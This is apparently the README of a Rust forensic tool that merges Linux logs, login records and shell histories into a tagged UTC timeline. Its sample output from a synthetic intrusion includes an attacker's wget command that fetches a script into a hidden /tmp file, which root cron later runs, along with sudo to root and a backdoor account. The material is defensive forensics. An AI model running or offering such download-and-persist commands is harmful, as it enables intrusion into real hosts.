

# timeliner

A Linux forensic **super-timeline builder** in Rust. Point it at a mounted or
collected Linux evidence tree. It parses the system's logs, login records,
shell histories, journal export, file-system bodyfile and package logs, and
merges them into one de-duplicated UTC timeline tagged by YAML rules. The
timeline comes out as JSONL, CSV, plaso-compatible **l2tcsv** or a
self-contained HTML report.

```text
$ timeliner build evidence/ --only-tagged --from 2025-01-01T04:00:00Z -f text
2025-01-01T04:07:12Z  high      ssh_login_success     deploy      SSH login accepted for deploy from 203.0.113.45 port 50122 (password)  [attack.initial_access, ssh-new-ip]
2025-01-01T04:09:02Z  high      shell_command         deploy      bash command by deploy: wget -q http://203.0.113.45/x.sh -O /tmp/.x.sh  [attack.command_and_control, download]
2025-01-01T04:10:44Z  high      sudo_command          deploy      sudo by deploy as root: /bin/bash  [attack.privilege_escalation, root-shell, sudo-to-root]
2025-01-01T04:13:05Z  high      user_created          -           user account created: sysbackup (uid 1002, home /home/sysbackup, shell /usr/bin/fish)  [attack.persistence, new-user]
2025-01-01T05:05:01Z  critical  cron_command          root        cron ran for root: /tmp/.x.sh  [attack.execution, attack.persistence, cron-temp]
```

## Why

When you triage a Linux host, the story is spread over a dozen artifacts.
Each one stores time differently:

| artifact | stores | trap |
|---|---|---|
| `auth.log`, `syslog`, `cron.log` (RFC 3164) | **local** wall-clock time, **no year** | needs the host's zone and a year guess; Dec 31 → Jan 1 rolls over |
| `dpkg.log`, `apt/history.log` | local time with year | needs the host's zone (DST overlaps/gaps) |
| `wtmp`/`btmp`/`utmp`, journal export, shell history, bodyfile | UTC epoch | none, but the records are binary or format-specific |

If you merge them naively, the order comes out wrong. A `sudo` line written
at 23:10 EST sorts five hours before the bash command that caused it.
timeliner normalizes all of it to UTC, using the **evidence's own**
`/etc/localtime`, never the analyst's machine. It infers years from the rest
of the evidence and de-duplicates the copies that rsyslog, journald and log
rotation create. Then it tags what matters.

It's meant for DFIR students and analysts who want a small, auditable
alternative to a full plaso run for Linux triage, and for anyone who wants to
see how such a tool is built and tested against a known ground truth.

## Features

- **Parsers** (all tolerate corrupt input; unreadable lines become warnings, not crashes):
  - syslog family: RFC 3164, RFC 3339 high-precision and RFC 5424 headers, plus the legacy Vixie-cron line format
  - shared message semantics for `sshd` (incl. OpenSSH ≥ 9.8 `sshd-session`), `sudo`, `su`, shadow-utils (`useradd`/`usermod`/`userdel`/`groupadd`/`passwd`/`chpasswd`), PAM, `systemd-logind`, `cron`/`crontab`, `systemd`, kernel boot, `login`
  - shell history: bash (`#epoch` lines, multi-line entries), zsh extended history (continuations, *unmetafy*), fish
  - `wtmp`/`btmp`/`utmp`: 384-byte glibc `struct utmp`, IPv4/IPv6 addresses, and logout↔login pairing like `last(1)` that recovers the user and session length
  - `journalctl -o export`, including binary-length fields
  - Sleuth Kit bodyfile: names may contain `|`, fractional times, MACB grouping (`M..B`)
  - `dpkg.log` state changes and `apt/history.log` transactions
- **Time**: TZif v1–v4 reader with POSIX-rule footer, POSIX `TZ` strings, fixed offsets and IANA names. DST overlaps resolve to the earlier instant and gaps shift forward; both are flagged on the event. Year inference is a single O(n) pass anchored to the newest system-record timestamp in the evidence (wtmp/btmp/utmp, journal, dpkg/apt; shell histories only when none exist), with future and outlying values rejected. The evidence's `etc/localtime` symlink is resolved *inside* the evidence root.
- **Dedup** across artifacts: same kind, host, user and description within 2 s, never inside one artifact (three identical failed passwords are three attempts).
- **Rules** (YAML): matchers `equals/in/contains/starts_with/ends_with/regex/cidr/exists/not`, `unless` exclusions, `threshold` (count in a sliding window per group) and `first_seen` (new value per group, optional baseline). There are 19 default rules, covering brute force, SSH from a new IP, sudo to root, root shell, new user, admin group, crontab, cron from `/tmp`, downloads to `/tmp`, tooling installs, history and log tampering, and more.
- **Outputs**: JSONL, CSV, l2tcsv (17 columns, UTC), aligned text, and a single-file HTML report with findings, an activity histogram and a filterable timeline. The HTML is locked down by a hash-based CSP and renders text only. CSV cells are guarded against formula injection, and text output escapes terminal control sequences.
- **Fixture generator** with a documented 22-step ground truth, plus `timeliner verify` to score a timeline against it.

## Architecture



Read the deeper design, the algorithms and their complexity in
[docs/ARCHITECTURE.md](docs/ARCHITECTURE.md). The rulings made along the way
are in [DECISIONS.md](DECISIONS.md), and the security model is in
[docs/THREAT_MODEL.md](docs/THREAT_MODEL.md).

## Quickstart

```sh
cargo build --release
B=target/release/timeliner

$B detect /mnt/evidence                          # what will be parsed
$B build /mnt/evidence --summary -o tl.jsonl     # zone from the evidence's /etc/localtime
$B build /mnt/evidence -o report.html            # format from the extension
$B build /mnt/evidence -o tl.l2t.csv             # plaso-compatible l2tcsv
$B build /mnt/evidence --only-tagged -f text     # just the findings
$B build bodyfile=fls.txt auth_log=secure.4 --tz America/Chicago --year 2023   # loose files
$B rules --rules my-rules.yml                    # validate custom rules
```

Useful options are `--tz` / `--tzfile` (override the evidence zone),
`--year`, `--from` / `--to`, `--baseline-until` (learning period for
first-seen rules), `--no-dedup`, `--dedup-window`, `--no-default-rules` and
`--rules FILE` (repeatable).

## Demo (real output)

`make demo` builds the release binary and runs [scripts/demo.sh](scripts/demo.sh)
offline against the committed synthetic incident in
[fixtures/incident](fixtures/incident) (story:
[STORY.md](fixtures/incident/STORY.md)). Excerpt from a run on this machine:

```text
== 2. Build the super-timeline (zone from the evidence's own /etc/localtime)
timeliner: 1553 events (3306 parsed, 1753 duplicates merged) from 14 artifacts
  time zone: America/New_York (evidence etc/localtime)
  years:     inferred: year-less entries end no later than 2025-01-02 00:34:12 local (newest system-record timestamp + 1 day)
  range:     2024-02-02T05:00:00.000000Z .. 2025-01-01T05:34:13.000000Z
  var/log/auth.log                                 auth_log            956 records     956 events    0 warnings
  var/log/journal/web01.export                     journal_export     1362 records    1362 events    0 warnings
  var/log/wtmp                                     wtmp                 15 records      15 events    0 warnings
  ...
  rule ssh-bruteforce                  12 hit(s)
  rule ssh-new-ip                       1 hit(s)
  rule sudo-root-shell                  1 hit(s)
  rule cron-runs-from-temp              1 hit(s)

== 4. Ground-truth check: every story step found, tagged and in order
step expected (UTC)        kind                 found  tag   title
S01  2025-01-01T04:02:12Z  ssh_login_failure    #1425  -     SSH brute force begins: first failed password from the attacker
S02  2025-01-01T04:02:50Z  ssh_login_failure    #1437  ok    Brute-force threshold crossed (5 failures from one IP within 5 minutes)
S03  2025-01-01T04:07:12Z  ssh_login_success    #1472  ok    Password login as deploy from an IP never seen for that account
...
S17  2025-01-01T05:05:01Z  cron_command         #1530  ok    cron executes /tmp/.x.sh as root after midnight
...
S22  2025-01-01T05:34:13Z  file_activity        #1552  -     File system: the shredded log's inode changes (deleted entry)

22/22 steps found, 0 missing tag(s), chronological order preserved: PASS

== 5. Negative control: ignore the evidence zone (--tz UTC)
20/22 steps found, 1 missing tag(s), chronological order preserved: FAIL
```

## Evaluation

The ground truth is generated **separately from the parsers**. The fixture
generator writes each artifact in its native format, converting the story's
UTC instants to EST wall-clock time for local-time logs. The parsers then have
to reverse that.

| check | command | result |
|---|---|---|
| story recovery: 22 steps found, tagged and in order | `timeliner verify --truth fixtures/incident/GROUND_TRUTH.json fixtures/incident/evidence` | 22/22, PASS |
| same, on other seeds and 3× noise | `cargo test --test story other_seeds_and_scales_still_recover_the_story` | pass (seeds 2, 99) |
| zone ignored (`--tz UTC`) | `timeliner verify ... --tz UTC` | FAIL (20/22): TZ normalization is load-bearing |
| wrong year with the journal removed | `cargo test --test story year_inference_is_load_bearing_without_the_journal` | FAIL for `--year 2024`, PASS with inference |
| fixture reproducibility | `cargo test --test story committed_fixture_is_reproducible_byte_for_byte` | byte-identical |

All of these run inside `make check`. The fixture is synthetic: see
[DATA.md](DATA.md) and the Limitations section below.

## Tests and coverage

`make check` runs `cargo fmt --check`, `clippy -D warnings`, `rustdoc -D warnings`
and the full test suite under `cargo llvm-cov --fail-under-lines 80`.

- 118 tests: 94 unit, 7 CLI end-to-end, 7 story/integration, 9 property-based (proptest), 1 binary-unit
- property tests cover every parser on arbitrary bytes and on mutated valid input (no panics), plus round-trips: utmp encode/decode, local↔UTC, CSV quoting, and year inference on chronological input
- line coverage **98.5%** (`make cov` → `TOTAL ... 98.50%` on the fresh-clone run, 98.49% on an earlier run; the proptest inputs vary). It's measured over all `src/` files. Inline `#[cfg(test)]` modules are part of those files, so the figure includes test code. The lowest file is `error.rs` at 66.67%.

Source size (`make loc`): 8,254 non-test lines in `src/` (about 1,680 of them
are the fixture generator), 2,153 lines of inline unit tests, 605 lines of
integration tests and a 168-line default ruleset.

## Benchmarks

`make bench` (= `scripts/bench.sh 500000 3`, release build, best of 3,
single-threaded per stage, synthetic inputs from `src/bench.rs`). This run was
on an Apple-silicon laptop (Darwin arm64, 8 logical CPUs) while other builds
shared the machine (load average ≈ 3.5), so treat the numbers as indicative:

| stage | records | input MiB | best time (s) | records/s | MiB/s |
|---|---:|---:|---:|---:|---:|
| auth.log (RFC 3164 + semantics) | 500000 | 47.3 | 0.830 | 602428 | 57.0 |
| wtmp (384-byte records) | 500000 | 183.1 | 0.576 | 867656 | 317.7 |
| journal export | 500000 | 86.5 | 1.253 | 398964 | 69.0 |
| bodyfile | 500000 | 51.8 | 1.959 | 255297 | 26.4 |
| bash history (records = lines) | 1000000 | 15.7 | 0.298 | 3351147 | 52.7 |
| sort + dedup + default rules | 500000 | 0.0 | 0.587 | 851735 | — |

End to end, the committed fixture (14 artifacts, 3,306 parsed events) builds
in 0.026 s wall time (`scripts/bench.sh`, last line). Files are parsed in
parallel, one file per worker. A single huge file is parsed by one thread.

## Design decisions (short version)

- **The evidence defines the zone.** By default the zone comes from
  `etc/localtime` (TZif), resolved inside the evidence root. An absolute
  symlink such as `/usr/share/zoneinfo/...` is re-rooted, and so is every
  symlinked directory on the way (`usr -> /usr`), so it doesn't pick up the
  analyst's own zone. If there's no zone, timeliner warns and assumes UTC,
  and the report says so.
- **Years come from the evidence, not the clock.** Phase A parses the
  absolute-time artifacts first. The newest timestamp from a *system* record
  (wtmp/btmp/utmp, journal, dpkg/apt) plus one day caps the year-less logs.
  User-writable shell histories count only when no system record exists.
  Timestamps after the analysis clock, and a tiny tail (≤ 1 %) more than a
  year past everything else, are rejected and reported. With no absolute
  timestamps at all, the analysis clock is the cap (an upper bound, never "the
  current year"), and the report flags it.
- **Dedup by meaning, not by bytes.** auth.log, syslog and journald copies
  normalize to the same description, so they merge. Each provenance is kept in
  `also_seen`.
- **Rules run after dedup**, so threshold rules don't double-count mirrored
  copies.
- **Reports are reproducible.** No generation timestamp, stable sort keys and
  seeded fixtures.

There are 17 rulings with their trade-offs in [DECISIONS.md](DECISIONS.md).

## Limitations

- **The evaluation data is synthetic.** It's one scripted intrusion on one
  host, generated by this repository. The messages follow real formats
  (OpenSSH, sudo, shadow-utils, cron, systemd, dpkg/apt), but no real-world
  corpus has been measured. Parsers may miss distro- or version-specific
  variants.
- The **message semantics** cover the common Debian/Ubuntu/RHEL wording. Other
  messages become `log_message` events, so they're kept but not classified.
  SELinux/auditd, `audit.log`, `lastlog`, `journald` binary files (`*.journal`),
  Docker/container logs, web-server logs and browser artifacts are **not
  parsed**. Export the journal with `journalctl -o export` first.
- **Year inference** assumes each year-less file is chronological, with gaps
  under a year. A forward jump within 7 days of a rollover counts as a
  straggler from the previous year. A genuine 11-month gap right after a
  rollover would be misassigned.
- **utmp** support is the glibc 64-bit (x86-64/aarch64) little-endian layout
  only. 32-bit and big-endian layouts are not handled.
- The **default rules are heuristics**, not detections validated against
  real-world false-positive rates. The fixture's routine `sudo systemctl
  restart` and `apt upgrade` by admins also fire `sudo-to-root` (medium), which
  is expected.
- Files are read fully into memory, and gzip output is capped at 1 GiB per
  file. Very large single logs are parsed by one thread.
- Every output is in UTC. There's no option to render in another zone yet.
- The CI workflow has never run (the repository has not been pushed).

## Roadmap

- Parsers for `audit.log`, `lastlog`, native `*.journal` files, nginx/apache access logs and `/var/log/kern.log` USB events
- Streaming parse for multi-GB logs (chunked year inference)
- Sigma-style rule import and MITRE ATT&CK technique IDs on rules
- Session reconstruction across sshd/pam/logind/wtmp (one "session" object per login)
- `--display-tz` for local-time rendering, and timesketch-compatible JSONL

## License

MIT, see [LICENSE](LICENSE).
